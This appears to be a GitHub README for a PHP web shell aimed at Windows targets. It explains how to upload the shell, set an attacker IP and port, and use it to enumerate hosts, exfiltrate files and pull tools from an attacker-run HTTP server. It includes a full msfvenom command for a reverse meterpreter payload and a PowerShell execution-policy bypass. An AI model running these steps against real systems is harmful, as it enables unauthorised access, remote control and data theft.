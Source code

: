 <h1> The Not-So Simple PHP Command Shell</h1>
<img src="/img/nsscmdshell.png" />
<p>Automates many on target functions. Designed for windows targets. It isn't pretty, but it works as intended. I have included an assortment of common windows enumeration and escalation tools.  To generate your own msfvenom payload:<br> 
venom.exe : <code>sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=(ATTACKBOXIP) LPORT=(ATTACBOXPORT) -e x64/shikata_ga_nai -f exe -o venom.exe</code>
</p>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshelluse.gif" />
<h2>Automates or simplifies many on target enumeration functions. Including:</h2>
<ul>
<li>Simple system commands</li>
<li>File upload/download options</li>
<li>simple user manipulations (on compatible targets with sufficient privileges)</li>
<li>One click user info/ user permissions info</li>
<li>One click systeminfo</li>
<li>One Click processes list</li>
<li>And many more...</li>
</ul>

<h2>How to use it</h2>
<p>First, change the variables, "$attackip" and "$attackport" to the appropriate values for YOUR attack machine:</p>
<code>$attackip = "10.0.2.6";</code><br>
<code>$attackport = "8000";</code>

<p>Next, upload the nsscmdshell.php file to the target. Please note that gaining access to the target is beyond the scope of this writing and your responsibility to establish in a manner consistent with established law.  This tool is intended to be used for on target enumeration to gather and exfiltrate information and then to upload and execute tools such as netcat or msvenom payload for further access to the target. </p>

<p>Once the nsscmdshell is uploaded, typing valid commands into the command input or clicking the various cmd buttons will display the results in a windows command prompt style below the nsscmdshell interface.</p>
<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-output.png" />
<p>The upload and download options are self explanatory, but just to avoid any confusion: <br><br>
If using the select field, choose your file and click "upload". files linked in the select field options need to be present at the web root&sup;1 at the ip address and port in lines 10 and 11 of nsscmdshell.php. <br>
If using the open file dialog option, only files present at the ip address and port specified can be uploaded. <br>
For the download option, simply enter the filename to be downloaded from the working directory of the target machine. Please note that files which can be managed by your browser will be opened in your browser - i.e., entering a text or html file to be downloaded will instead open the file in the web browser.<br>   
Example usage: run jaws-enum.ps1 - output to jaws.txt <code>powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename jaws.txt</code>, then download the output file to your attack machine for later close examination.<br><br>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-jaws.png" />
</p>
<p>The quick command buttons each have a title attribute with a brief description of the function - hover over the button to see the description.<br>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-title-desc.png" /><br>

It goes without saying that the effectiveness of the various functions depends on the target os's support of the functions and the current user's permissions. This was designed for and tested on Windows XP - Windows 8.1 with very limited testing on Win10.</p> 
&sub;1 I generally cd into my "windowstools" folder and start a simple http server:<br>
<code>cd windowstools</code><br>
<code>python3 -m http.server 8000</code>.<br>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-listening.png" />

*** Got "Warning: file_get_contents(http://XX.XX.XX.XX:XXXX/filename.ext):failed to open stream: No connetion could be made...." error? 
 Two possible causes:</p>
 <ol>
 <li> You didn't set the variables, <code>$attackip</code> and <code>$attackport</code> to your machine. Fix: ifconfig your ip, and set in nsscmdshell.php lines 10 and 11.</li> 
 <li> The files are not available on the defined server or port, or there is no server running on the defined port. Fix: <code>python3 -m http.server XXXX</code> in a directory containing the files you're attempting to upload.</li>
 </ol>
<div style="margin:0px auto;text-align:center;"><img src="http://www.hackthebox.eu/badge/image/476578" alt="Hack The Box"></div>